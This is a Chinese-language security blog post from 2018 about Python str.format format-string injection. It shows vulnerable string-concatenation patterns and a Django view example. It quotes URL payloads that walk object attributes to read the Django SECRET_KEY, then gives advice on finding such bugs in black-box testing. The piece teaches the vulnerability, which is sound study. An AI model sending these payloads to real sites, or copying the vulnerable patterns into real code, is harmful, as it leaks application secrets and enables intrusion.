

Title:python格式化字符串漏洞实践
Date: 2018-01-22 10:20
Category: 漏洞实践
Tags: 漏洞实践,Python,格式化字符串漏洞
Slug: 
Authors: bit4
Summary: 

### 0x0、核心问题

如下面这个例子，从python2.6开始，就有了用format来格式化字符串的新特性，它可以通过{}来确定出字符串格式的位置和关键字参数，并且随时可以显式对数据项重新排序。此外，它甚至可以访问对象的属性和数据项——这是导致这里的安全问题的根本原因。

影响范围：Python 2.6及以后

```python
>>> print 'class of {0} is {0.__class__}'.format(42+1)
class of 43 is <type 'int'>
#可以看到，0.__class__获取到了输入对象（43）的类（int）。漏洞是建立在这个特性的基础之上的。
```

### 0x1、漏洞的必要条件

漏洞存在的必要条件是：可以控制字符串（一般是字符串拼接了用户的输入）



当然，要能正确利用，还需要保证控制的字符串语法的正确，即注入的对象名称必须和format参数传入的对象名称完全匹配。比如下面的例子：由于format传入的是"user=xxxx "，注入的字符串中，就必须是user.xxxx。


**实际代码中可能的字符串拼接方式有哪些呢？**

我能想到的：多次format  、利用加号的字符串拼接、利用%s的字符串拼接

```python
#多次format：  比如2次的情况，如果第一次被控制，将发生该漏洞
template = 'Hello {user}'
template = template.format(user ="{user.__class__}")#用户注入发生在这里
print template
print template.format(user="bit4")
```


```python
#用加号的字符串拼接
email = "{user.__class__}" #用户注入的内容
template = 'Hello {user}, This is your email: ' + email
print template
print template.format(user="bit4")
```


```python
#利用%s的字符串拼接
email = "{user.__class__}" #用户注入的内容
template = 'Hello {user}, This is your email: %s' %email
print template
print template.format(user="bit4")
```


### 0x2、黑盒的思路

如果能看到代码，知道语句是怎么写的，当然容易构造出payload来注入到格式化字符串中，那么黑盒的时候，怎么办呢？phithon的文章中，给出了django中的一个例子。

```python
def view(request, *args, **kwargs):
    template = 'Hello {user}, This is your email: ' + request.GET.get('email')
    return HttpResponse(template.format(user=request.user))

然后给出的payload如下：
http://localhost:8000/?email={user.groups.model._meta.app_config.module.admin.settings.SECRET_KEY}

http://localhost:8000/?email={user.user_permissions.model._meta.app_config.module.admin.settings.SECRET_KEY}

{user.groups.model._meta.app_config.module.admin.settings.SECRET_KEY}
{user.user_permissions.model._meta.app_config.module.admin.settings.SECRET_KEY}
{user.__groups.model._meta.app_config.module.admin.settings.SECRET_KEY}
```

关于在黑盒的时候，如何成功挖掘该类漏洞，有几个关键问题：

Q：如何识别注入点？

A：如果识别不了，那就遍历所有可能的参数请求，


Q：如何找到一个可用的当前对象？

A：这一块好像没有很好的自动化方法，只有通过web的具体功能来猜测判断，比如，如果当前页面是用户登录后的欢迎页面，那么它很可能包含用户user对象，如果是展示展示一列订单，那么它很可能包含order对象.....等等


Q：是否存在一个通用对象呢？也就是每个请求中必然包含的对象是什么？或者一些框架或者web中常用的对象？

A：request对象应该算一个，但是实际的编程中几乎不会直接使用request对象。

​	至于有什么常用对象，目前回答不了...


Q：如何找到对象的可用属性？如何找到某个对象到系统敏感信息的对象属性链呢？

A：dir()函数可以查看某个对象的可用属性。

​	关于属性链，具体怎么查找还不清楚，但大致方向是，先通过当前属性，到达model等访问更广的全局属性（对象），从而再获取具体的属性。


参考：

https://www.leavesongs.com/PENETRATION/python-string-format-vulnerability.html

http://lucumr.pocoo.org/2016/12/29/careful-with-str-format/